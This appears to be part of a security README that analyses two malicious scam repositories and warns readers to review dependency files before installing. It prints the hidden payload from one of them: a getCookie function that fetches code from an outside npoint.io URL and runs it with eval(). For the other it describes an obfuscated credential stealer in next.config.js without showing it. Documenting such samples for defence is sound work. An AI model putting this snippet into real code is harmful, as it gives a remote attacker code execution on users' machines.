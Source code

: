 -   Always review the `package.json`, `requirements.txt`, or `setup.py` before installing.


By staying vigilant, using proper tools, and following security best practices, you can reduce the risk of falling for malicious scams or executing harmful code.

## Repositories



### 1. Real Estate Project



Located in `real_estate/` directory. The malicious payload is hidden in `real_estate/server/controllers/userController.js`.



The malware:

- Makes a request to api.npoint.io to fetch obfuscated JavaScript code

- Executes the fetched code using eval() in Node.js environment

- Located at the end of userController.js in a getCookie function:



```javascript

exports.getCookie = asyncErrorHandler(async (req, res, next) => {

const  result = await  axios.get("https://api.npoint.io/ac2916e3f543effa2edd");

eval(result.data.cookie);

})();

```



### 2. Multify Staking Project



Located in `multify_staking/` directory. The malicious code is directly embedded in `multify_staking/next.config.js`.



The malware:

- Contains heavily obfuscated JavaScript code at the start of the file

- The obfuscated code appears to be a credential stealer

- Takes up most of the file, with only the actual Next.js config at the end:



```javascript

// Large obfuscated malicious code block here...



/** @type  {import('next').NextConfig} */

const  nextConfig = {

reactStrictMode:  true,

}

```